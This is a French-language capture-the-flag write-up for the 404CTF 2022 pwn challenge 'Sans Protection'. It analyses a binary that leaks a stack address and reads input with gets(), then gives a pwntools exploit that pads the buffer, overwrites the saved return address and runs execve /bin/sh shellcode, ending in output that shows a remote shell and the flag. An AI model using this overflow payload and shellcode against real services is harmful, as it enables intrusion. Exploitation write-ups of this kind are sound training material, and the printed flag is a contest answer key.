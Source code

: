 ## PWN / Sans Protection

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Les interactions avec le challenge sont assez simples :
- le serveur nous donne ce qui semble être une adresse
- lit un input
- quitte

```bash
$nc challenge.404ctf.fr 31720
Montrez-nous de quoi vous êtes capable !
Cadeau : 0x7ffd54f49aa0
AAAAAA
```

### Analyse statique

Le challenge nous permet de télécharger le binaire à exploiter sur le serveur.

En regardant rapidement le code, on trouve la fonction principale qui correspond au workflow précédent :

```c
int main(void)

{
  char user_input [64];

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Cadeau : %p\n",user_input);
  gets(user_input);
  return 0;
}
```

On remarque que l'adresse leakée est celle de notre input (sur la stack).
Par ailleurs, il n'y a pas de contrôle sur la taille de l'input qui va être stocké dans un buffer de 64 octets

Niveau protection, rien de particulier :

```bash
$ checksec fragile
[*] '/home/maskott/github/ctf_404_2022/pwn/sans_protection/fragile'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      No PIE (0x400000)
   RWX:      Has RWX segments
```

Il reste à supposer que l'ASLR est activée sur le serveur, ce qui est confirmé en relançant deux fois le challenge, l'adresse du leak change.


### Exploit

Avec tout ça, on conclut rapidement que c'est un bon vieux buffer overflow :
- remplir le buffer
- écraser la sauvegarde de RIP sur la stack (avec une adresse pointant sur notre shellcode)
- poser un shellcode sur la stack


J'ai fait vite, donc pour être sûr, je remplis le buffer puis j'écris 4 fois l'adresse du shellcode pour écraser saved RBP, saved RIP , divers ...

Ce qui donne le code suivant (merci [Voydstack](https://github.com/voydstack/shellcoding/tree/master/x64/shell) pour le shellcode):

```python
    log.success("Leak : " + buff_add.decode())

    shell_addr = int(buff_add.decode(), 16) + 64 + 4 * 8
    log.success("shell_addr : " + hex(shell_addr))

    payload = b"\x90" * 64
    payload += p64(shell_addr) * 4
    payload += b"\x48\x31\xf6\x56\x5a\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x6a\x3b\x58\x0f\x05"

    r.send(payload + NL)
    r.interactive()
```

```bash
$ python3 fragile.py REMOTE
[*] '/home/maskott/github/ctf_404_2022/pwn/sans_protection/fragile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.404ctf.fr on port 31720: Done
b'Montrez-nous de quoi vous \xc3\xaates capable !\nCadeau : 0x7ffc0b0cc220\n'
[+] Leak : 0x7ffc0b0cc220
[+] shell_addr : 0x7ffc0b0cc280
[*] Switching to interactive mode
$ cat flag.txt
404CTF{V0U5_3735_Pr37_P0Ur_14_Pr0CH41N3_M15510N}
```
